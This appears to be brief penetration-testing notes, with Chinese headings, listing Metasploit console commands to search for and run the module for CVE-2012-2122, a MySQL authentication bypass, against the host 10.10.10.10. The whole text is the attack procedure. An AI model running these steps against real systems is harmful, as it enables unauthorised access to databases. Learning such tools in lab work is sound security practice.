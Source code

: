 ### 启动
 
msfconsole

### 搜索cve

search cve:CVE-2012-2122

use 0

show options

set rhost 10.10.10.10

run
